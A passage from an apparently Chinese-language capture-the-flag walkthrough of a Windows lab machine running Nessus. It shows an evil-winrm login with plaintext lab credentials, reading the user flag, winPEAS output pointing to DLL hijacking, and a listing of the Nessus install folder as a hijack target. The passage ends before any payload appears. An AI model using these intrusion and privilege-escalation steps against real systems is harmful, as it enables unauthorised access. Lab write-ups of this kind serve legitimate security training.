使用`evil-winrm`获得`shell`

```c
evil-winrm -i 192.168.56.8 -u nesus -p Aa118811             
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\nesus\Documents> 
```

## UserFlag

之后可以读取`userflag`了

```c
*Evil-WinRM* PS C:\Users\nesus\Desktop> type user.txt
72113f41d43e88eb5d67f732668bc3d1
```

获取到`user Flag` 接下来就是要获取到`root Flag`了

## DLL 劫持

上传`winpeas`运行一下，显示可能存在`DLL`劫持

```c
[*] DLL HIJACKING in PATHenv variable
   [i] Maybe you can take advantage of modifying/creating some binary in some of the following locations 
   [i] PATH variable entries permissions - place binary or DLL to execute instead of legitimate 
   [?] https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dll-hijacking
```

翻一下目录（想起来存在nessus）

```c
*Evil-WinRM* PS C:\Program Files\tenable\Nessus> dir

    Directory: C:\Program Files\tenable\Nessus

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/18/2024  10:35 AM              1 .winperms
-a----          5/9/2024  11:30 PM        2471544 fips.dll
-a----          5/9/2024  11:30 PM        5217912 icudt73.dll
-a----          5/9/2024  11:30 PM        1575032 icuuc73.dll
-a----          5/9/2024  11:30 PM        4988536 legacy.dll
-a----          5/9/2024  11:06 PM         375266 License.rtf
-a----          5/9/2024  11:37 PM       11204728 nasl.exe
-a----          5/9/2024  11:31 PM         264824 ndbg.exe
-a----          5/9/2024  11:06 PM             46 Nessus Web Client.url
-a----          5/9/2024  11:33 PM          38520 nessus-service.exe
-a----          5/9/2024  11:37 PM       11143800 nessuscli.exe
-a----          5/9/2024  11:38 PM       11925624 nessusd.exe
```
